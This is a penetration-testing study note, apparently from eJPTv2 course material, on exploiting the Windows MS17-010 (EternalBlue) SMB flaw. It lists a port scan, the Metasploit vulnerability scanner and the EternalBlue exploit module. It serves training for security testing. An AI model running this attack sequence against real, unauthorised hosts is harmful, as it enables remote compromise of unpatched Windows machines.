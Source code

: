 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/The Metasploit Framework/Windows Exploitation/Windows Exploitation]]"
---
```


# Exploiting Windows MS17-010 SMB Vulnerability

- EternalBlue is the name given to a collection of Windows vulnerabilities
- The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target is vulnerable

## Demonstration

```bash
# portscan
db_nmap -sS -sV -O <ip>
# check for vulnerability
use auxiliary/scanner/smb/smb_ms17_010
# exploit it
use exploit/windows/smb/ms17_010_eternalblue
```

